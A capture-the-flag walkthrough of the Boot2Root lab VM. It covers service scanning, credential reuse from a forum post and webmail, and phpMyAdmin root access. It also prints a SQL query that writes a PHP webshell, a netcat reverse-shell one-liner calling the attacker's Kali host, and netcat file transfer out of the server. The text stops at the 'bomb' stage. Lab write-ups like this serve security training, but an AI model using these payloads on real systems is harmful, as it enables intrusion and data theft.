







# Network Setup
Configure the adapter 2 of the Boot2Root VM to Host-Only on the `vboxnet0` interface.  
> If you want to use another VM like Kali, do the same on that one.  
> _To get Kali you can visit their website : https://www.kali.org/get-kali/_

This will create a private network between our host machine and the VMs.  
> The default network is `192.168.56.0/24`.  

You can check the machines present on the network with: `nmap -sn 192.168.56.0/24`.  
> Our Kali is running on `192.168.56.101` and our exploitable Boot2Root VM on `192.168.56.102`.  

Verify the connectivity Host (or Kali) <--> Boot2Root:
`ping <ip>`

# Analysis of available services on Boot2Root
```bash
$> nmap -sV 192.168.56.102
Starting Nmap 7.80 ( https://nmap.org ) at 2024-10-18 10:41 CEST
Nmap scan report for 192.168.56.102
Host is up (0.000036s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 2.0.8 or later
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap       Dovecot imapd
443/tcp open  ssl/http   Apache httpd 2.2.22
993/tcp open  ssl/imaps?
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.45 seconds
```

We can see the following services are running:
- FTP on port 21
- SSH on port 22
- HTTP on port 80
- IMAP on port 143
- HTTPS on port 443
- IMAPS on port 993

# Services Lookaround

## Http Service Analysis
First we head to the website : `http://192.168.56.102`
We land on a temporary page telling us the website is preparing its launch, with social networks links.

Let's see what other pages we can find using `dirb`
> _dirb is a tool used to "bruteforce" (hidden) files and directories on a http server using wordlist (common.txt by default)_
```bash
┌──(kali㉿kali)-[~]
└─$ dirb http://192.168.56.102   

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Oct 18 04:51:07 2024
URL_BASE: http://192.168.56.102/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

 GENERATED WORDS: 4612

---- Scanning URL: http://192.168.56.102/ ----
+ http://192.168.56.102/cgi-bin/ (CODE:403|SIZE:290)                        
==> DIRECTORY: http://192.168.56.102/fonts/
+ http://192.168.56.102/forum (CODE:403|SIZE:287)                           
+ http://192.168.56.102/index.html (CODE:200|SIZE:1025)                     
+ http://192.168.56.102/server-status (CODE:403|SIZE:295)                   
                                                                            
---- Entering directory: http://192.168.56.102/fonts/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Fri Oct 18 04:51:08 2024
DOWNLOADED: 4612 - FOUND: 4
```

We found 4 pages : `forum`, `index.html`, `server-status`, `cgi-bin/`
And 1 directory : `fonts/`

When we try to visit the `forum`, `server-status` and `cgi-bin/`, we get a 403 Forbidden Access error.
> dirb told us in the command output that we had `CODE:403`, so we could expect that we would get the same error

`index.html` is just the homepage we previously visited.

The `fonts/` directory shows us some font files.

Nothing really helping us right now, let's see what we can find on the other services.

## Https Service Analysis

Just like the Http analysis, we try to visit the page:
`https://192.168.56.102`

This time, there is no homepage to visit.

Let's run `dirb` again on https:

`dirb https://192.168.56.102 -o dirb-https.txt`

> output is saved in `dirb-https.txt`

This time we find new folders:
 - `phpmyadmin/` : A Login page to phpmyadmin pannel, to manage MySQL databases
 - `webmail/` : A login page to "SquirrelMail v1.4.22"
 - `forum/` : This time we can visit the page and we land on forum threads.

 # Forum Post with command history

On the forum, we can see a post from the user lmezard where he tries to connect with ssh to different users.

We can see a weird user named `!q\]Ej?*5K5cy*AJ`

We can suppose it is a password.

Let's try to connect to lmezard account on fhe forum with this password.

It works, we now have access to this forum account.

> Also, with the previous usernames found on his post, we can make a user wordlist for later in case we need to bruteforce.

# Laurie's Account

On lmezard account, we can see her mail is `laurie@borntosec.net`



We noticed previously a webmail service on the serveur at `/webmail/`, let's try to use the same password.

It works, we can now access Laurie's mail.

We can see she received a mail concerning a database access with the credentials: `root/Fg-'kKXBj87E:aJ$`



We know phpMyAdmin is running on the server at the address /phpmyadmin/, let's try to connect with these credentials.

It works, we now have a root access to the sql database.

# Setting up a reverse shell

First, we have to find a place where we can upload php files on the server.

By scouting the pages found previously with `dirb`, we can see a `/forum/templates_c` page, which is a listable directory of php files, let's try to upload our webshell here.



We can upload a webshell on the server using a SQL request:
```sql

select 1,2,'<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>',4 into OUTFILE '/var/www/forum/templates_c/backdoor.php'
```

We know the web pages are often located in the `/var/www/` folder.

__Now we can access our webshell !__

We can enter commands by adding `?cmd=<command>` at the end of the url.

This is not really convenient, so we are going to setup a reverse shell.

We used https://www.revshells.com/ to generate a reverse shell command : `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.56.101 6942 >/tmp/f`

We need to encode it in the url format (using https://www.urlencoder.org/fr/):`rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%20192.168.56.101%206942%20%3E%2Ftmp%2Ff`


Then the reverse shell can be set up using `nc`:
```bash
# First we listen on our Kali:
nc -lvnp 6942

# Then we send the command to the server by visiting:
https://192.168.56.102/forum/templates_c/backdoor.php?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|bash%20-i%202%3E&1|nc%20192.168.56.101%206942%20%3E/tmp/f
```



__We now succesfully have a reverse shell on the server.__

We can `enable tty mode` with the following python command: `python -c 'import pty; pty.spawn("/bin/bash")'`

This will allow us to switch user later on.

# Privilege Escalation
## www-data

On the server, we can see a weird home in /home : LOOKATME

Inside we find a password file with `lmezard:G!@M6f4Eatau{sF"`

Let's try to switch user:



It works, we are now lmezard.

## lmezard

In her home, we can find two files:
- `README` : "Complete this little challenge and use the result as a password for user 'laurie' to login in ssh"

- `fun` : a tar archive

Let's send the archive to our host with `nc`:
```bash
# On Kali
nc -lvp 2224 > ft_fun

# On the server
nc 192.168.56.101 2224 < fun
```

Then we extract it : `tar xvf ft_fun`

The archive contains lots of .pcap files, each containing the declaration of a C function.

We can use a python script to rebuild the c file :
```python
import os

files = os.listdir('./ft_fun')
chunks = dict()
for i in files :
    with open('./ft_fun/'+i, 'r') as f :
        l = f.read().split('//file')
        chunks[int(l[1])] = l[0]
chunks = dict(sorted(chunks.items()))
with open('output.c', 'a') as f :
    for i in chunks.values() :
        f.write(i)
```



We can now connect to laurie account by ssh after hashing `Iheartpwnage` with `echo -n "Iheartpwnage" | sha256sum`: 

`330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

## laurie



On her home we find a `bomb` binary file and a `README` telling us to defuse the bomb in order to connect to the user `thor`